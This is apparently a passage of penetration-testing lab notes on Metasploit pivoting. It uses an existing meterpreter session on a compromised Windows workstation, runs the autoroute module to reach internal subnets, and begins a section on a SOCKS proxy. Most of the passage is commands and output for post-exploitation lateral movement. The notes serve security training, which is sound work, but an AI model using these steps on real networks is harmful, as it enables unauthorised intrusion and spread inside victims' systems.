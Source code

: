 Terminate psexec session.

Use session created by executing `met.exe` as luiza

Select module 
```
msf6 exploit(windows/smb/psexec) > use multi/manage/autoroute
```

Show opts
```
msf6 post(multi/manage/autoroute) > show options

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, default)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION                   yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)
```

View active sessions
```
msf6 post(multi/manage/autoroute) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  12         meterpreter x64/windows  ITWK01\luiza @ ITWK01  192.168.119.4:443 -> 127.0.0.1 ()
```

Set active session
```
msf6 post(multi/manage/autoroute) > set session 12
```

Run
```hlt:7,8
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against ITWK01
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.16.5.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 192.168.50.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
```

#### Combine Routes with SOCKS Proxy 
Allows apps outside of MSF to tunnel through 1080
##### Metasploit Module: auxiliary/server/socks_proxy
